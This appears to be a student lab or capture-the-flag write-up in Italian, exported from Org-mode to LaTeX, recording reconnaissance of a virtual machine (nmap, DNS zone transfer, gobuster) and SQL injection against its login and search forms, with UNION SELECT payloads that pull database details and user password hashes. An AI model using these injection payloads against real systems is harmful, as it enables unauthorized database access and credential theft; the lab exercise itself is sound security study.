% Created 2022-07-04 lun 08:21
% Intended LaTeX compiler: pdflatex
\documentclass[11pt]{article}
\usepackage[utf8]{inputenc}
\usepackage[T1]{fontenc}
\usepackage{graphicx}
\usepackage{longtable}
\usepackage{wrapfig}
\usepackage{rotating}
\usepackage[normalem]{ulem}
\usepackage{amsmath}
\usepackage{amssymb}
\usepackage{capt-of}
\usepackage{hyperref}
\author{Andrea Pepe - Matteo Ciccaglione}
\date{03/07/2022}
\title{VDSI - SecureServer}
\hypersetup{
 pdfauthor={Andrea Pepe - Matteo Ciccaglione},
 pdftitle={VDSI - SecureServer},
 pdfkeywords={},
 pdfsubject={},
 pdfcreator={Emacs 27.1 (Org mode 9.5.3)}, 
 pdflang={English}}
\begin{document}

\maketitle
\section{Foothold}
\label{sec:org5a59112}
\subsection{target machine individuation}
\label{sec:org60d066e}
\begin{verbatim}
 nmap -sP 192.168.56.0/24                                                                                      1 ⚙
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-03 12:01 CEST
mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers
Nmap scan report for 192.168.56.101
Host is up (0.00032s latency).
Nmap scan report for 192.168.56.105
Host is up (0.0018s latency).
Nmap done: 256 IP addresses (2 hosts up) scanned in 6.96 seconds
\end{verbatim}

\subsection{nmap}
\label{sec:org81d3948}
\begin{verbatim}
$ sudo nmap -sS 192.168.56.105                                                                              1 ⨯ 1 ⚙
sudo: impossibile risolvere l'host roronoa: Errore temporaneo nella risoluzione del nome
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-03 12:06 CEST
mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers
Nmap scan report for 192.168.56.105
Host is up (0.00020s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
53/tcp open  domain
80/tcp open  http
MAC Address: 08:00:27:A2:D0:B4 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 0.20 seconds
\end{verbatim}

\subsection{DNS ZT}
\label{sec:orgf880523}
\begin{verbatim}
$ dig axfr @sa.secureserver.vdsi secureserver.vdsi                                                                1 ⚙

; <<>> DiG 9.18.0-2-Debian <<>> axfr @sa.secureserver.vdsi secureserver.vdsi
; (1 server found)
;; global options: +cmd
secureserver.vdsi.	3600	IN	SOA	ns.secureserver.vdsi. sa.secureserver.vdsi. 1 3600 600 86400 3600
secureserver.vdsi.	3600	IN	NS	ns1.secureserver.vdsi.
secureserver.vdsi.	3600	IN	NS	ns2.secureserver.vdsi.
6ee67.secureserver.vdsi. 3600	IN	A	10.1.1.1
8059a.secureserver.vdsi. 3600	IN	A	10.1.1.5
admin.secureserver.vdsi. 3600	IN	A	10.1.1.4
cdn.secureserver.vdsi.	3600	IN	A	10.1.1.3
e16ab.secureserver.vdsi. 3600	IN	CNAME	www.secureserver.vdsi.
git.secureserver.vdsi.	3600	IN	A	10.1.1.4
ns1.secureserver.vdsi.	3600	IN	A	10.0.0.1
ns2.secureserver.vdsi.	3600	IN	A	10.0.0.2
sa.secureserver.vdsi.	3600	IN	A	10.1.1.2
secret.secureserver.vdsi. 3600	IN	A	10.1.1.3
shell.secureserver.vdsi. 3600	IN	A	10.1.1.10
static.secureserver.vdsi. 3600	IN	CNAME	www.secureserver.vdsi.
secureserver.vdsi.	3600	IN	SOA	ns.secureserver.vdsi. sa.secureserver.vdsi. 1 3600 600 86400 3600
;; Query time: 0 msec
;; SERVER: 192.168.56.105#53(sa.secureserver.vdsi) (TCP)
;; WHEN: Sun Jul 03 14:22:46 CEST 2022
;; XFR size: 16 records (messages 1, bytes 404)
\end{verbatim}

\subsection{Server web}
\label{sec:orga0c6591}
Tra i vari nomi DNS individuati, ce n'è uno che risulta essere un vhost:
\textbf{e16ab.secureserver.htb} . Se ci si va, viene mostrato da browser "403 Forbidden".
Tuttavia, sia con curl che da BurpSuite, il codice di ritorno HTTP
è 200. Si tratta di una pagina costruita per ingannare.

Enumeriamo le directory del vhost.
\subsubsection{gobuster}
\label{sec:org89a6048}
\begin{verbatim}
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt -u http://e16ab.secureserver.vdsi -x php,js,html,txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://e16ab.secureserver.vdsi
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              html,txt,php,js
[+] Timeout:                 10s
===============================================================
2022/07/03 19:05:39 Starting gobuster in directory enumeration mode
===============================================================
/css                  (Status: 301) [Size: 185] [--> http://e16ab.secureserver.vdsi/css/]
/register.php         (Status: 200) [Size: 560]                                          
/uploads              (Status: 301) [Size: 185] [--> http://e16ab.secureserver.vdsi/uploads/]
/secret.php           (Status: 200) [Size: 1112]                                             
Progress: 116985 / 150005 (77.99%)                                                          [ERROR] 2022/07/03 19:05:49 [!] parse "http://e16ab.secureserver.vdsi/error\x1f_log.php": net/url: invalid control character in URL
                                                                                             
===============================================================
2022/07/03 19:05:52 Finished
===============================================================
\end{verbatim}

\subsubsection{SQL injection 1}
\label{sec:org6f2ce0d}
La pagina \textbf{register.php} non è accessibile. Mentre la pagina \textbf{secret.php}
presenta un form di login. Se si vede il sorgente html della pagina,
c'è una riga di un bottone di input di debug con valore false che però
è commentata.

Provando a fare il login con credenziali abc:abc allo URL
\textbf{\url{http://e16ab.secureserver.vdsi/secret.php?debug=true}}, viene stampata
la query che viene effettuata:
\begin{verbatim}
SELECT * FROM users where (username='abc') AND (password = '900150983cd24fb0d6963f7d28e17f72')
\end{verbatim}

Facciamo SQL injection sullo username, inserendo:
\begin{verbatim}
a') OR 1=1; #
\end{verbatim}

Si viene redirezionati alla pagina:
\textbf{\url{http://e16ab.secureserver.vdsi/S34rch\_ev3ryWh3ree.php}}.

\subsubsection{SQL injection 2}
\label{sec:org204f99c}
Questa pagina presenta un altro form (HTTP POST), con cui è possibile
cercaare dei prodotti inserendo una stringa. Non inserendo nulla e
premendo il pulsante per la ricerca, appare la seguente tabella:

\begin{center}

\includegraphics[width=.9\linewidth]{./img/tabella.png}
\end{center}

Se si guarda il sorgente della pagina, e c'è sempre un riferimento al
campo debug, ma stavolta non è utile, viene esplicitamente indicato
che non verrà fornita alcuna info di debug (molto simpaticamente :) ).

Proviamo ad inserire qualche lettera e vediamo che succede:
\begin{center}

\includegraphics[width=.9\linewidth]{./img/tabella_input_b.png}
\end{center}

Vengono mostrati solo i file che iniziano con la lettera inserita. La
query sarà qualcosa del tipo:
\begin{verbatim}
SELECT * FROM products WHERE product_name LIKE '${input}%'
\end{verbatim}

Proviamo ad usare l'apice e vediamo cosa succede.
\begin{center}

\includegraphics[width=.9\linewidth]{./img/b_apice.png}
\end{center}


Sembra crashare. Anche inserendo la stringa \textbf{b\%'} è lo stesso. Proviamo
a mettere un commento dopo e vediamo se riusciamo ad ottenere le
stesse righe di prima.
Come visibile dalla seguente immagine, inserendo la stringa \textbf{b\%' \#} si
ottiene quanto atteso.
\begin{center}

\includegraphics[width=.9\linewidth]{./img/hashtag.png}
\end{center}


A questo punto, proviamo a fare delle SQL injections di tipo \textbf{UNION
SELECT} per ottenere informazioni. Dalla tabella mostrata, siamo sicuri
che almeno 4 colonne ci sono, ma probabilmente saranno almeno 5, in
quanto sembra plausibile che per record del genere ci sia una colonna
ID.

Effettivamente, la tabella ha 5 colonne. L'injection che l'ha rivelato
è stata: \textbf{\%' UNION SELECT ALL 1,2,3,4,5 \#}:
\begin{center}

\includegraphics[width=.9\linewidth]{./img/5columns.png}
\end{center}


\subsection{Database Information Gathering}
\label{sec:orgdde49f0}
\subsubsection{general infos}
\label{sec:org3eb356e}
Continuiamo a sfruttare la SWL injection per ottenere nome del
database, dell'utente con cui gira, della versione del DB.
Lo facciamo con il seguente payload iniettato:
\begin{verbatim}
%' UNION SELECT ALL 1,database(),user(),version(),5 #
\end{verbatim}
\begin{center}

\includegraphics[width=.9\linewidth]{./img/dbinfo.png}
\end{center}

Dunque abbiamo:
\begin{itemize}
\item DB name = \textbf{sqlitraining}
utente = \textbf{root}
versione = \textbf{8.0.26}
\end{itemize}


\subsubsection{tables}
\label{sec:orgdd02455}
Vediamo quali tables sono presenti nel database, facendoci restituire
la colonna \textbf{table\textsubscript{name}} da INFORMATION\textsubscript{SCHEMA.columns} con il seguente
payload:
\begin{verbatim}
%' UNION SELECT 1,table_name,3,4,5 from information_schema.columns #
\end{verbatim}
Ce ne sono tanti, molti di più di quelli visibili nella seguente
immagina, ma uno interessante può essere \textbf{users}, che contiene gli
username e le hash delle passwords degli utenti.
\begin{center}

\includegraphics[width=.9\linewidth]{./img/table_name.png}
\end{center}

\subsubsection{users}
\label{sec:org25de77c}
Per scoprire i nomi delle colonne della tabella \textbf{users} usiamo il
seguente payload:
\begin{verbatim}
%' UNION SELECT 1,column_name,3,4,5 from information_schema.columns where table_name = 'users' #
\end{verbatim}
\begin{center}

\includegraphics[width=.9\linewidth]{./img/users_column.png}
\end{center}


Prendiamo username, password e description con la seguente query
iniettata:
\begin{verbatim}
' UNION SELECT 1,username,password,description,5 from users #
\end{verbatim}
Si ottiene quanto segue:
\begin{center}

\includegraphics[width=.9\linewidth]{./img/password.png}
\end{center}


Tutti gli utenti hanno la stessa password hashata, proviamo a
crackarla.

Tuttavia, la password non viene mostrata tutta per questioni di
spazio. Dobbiamo estrarla pezzo per pezzo, usando la funzione SQL
\textbf{SUBSTRING(string, pos, len)}. Notare che pos parte da 1.
\begin{verbatim}
' UNION SELECT 1,username,SUBSTRING(password, 1, 10),4,5 from users #
\end{verbatim}

Pezzi:
0c4fce23e1
16d23f8d25
526071ca6e
3a

In realtà è lunga uguale!

\subsection{Password cracking}
\label{sec:orgc06abe9}
\end{document}